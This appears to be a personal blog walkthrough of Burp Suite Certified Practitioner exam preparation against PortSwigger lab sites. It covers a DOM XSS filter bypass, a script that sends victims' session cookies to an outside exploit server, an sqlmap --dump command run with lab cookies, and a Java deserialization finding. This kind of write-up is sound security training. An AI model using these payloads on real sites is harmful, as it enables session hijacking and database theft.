 # Burp Suite Certified Practitioner Exam Preparation Walkthrough

---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Burp Suite Exam Prep !
header:
  image: /assets/images/post1/image.png
  teaser: /assets/images/post1/teaser.png
  
---


### **EXAM PREP**

**1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](/assets/images/burp/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

**2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

**3/3** ****DESERIALIZATION:****

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Launch_Scan.png)

![Burp Scan.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](Burp%20Suite%20Certified%20Practitioner%20Exam%20Preparation%20e44ac319b9a043ea9b3e732055d7c4f5/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.
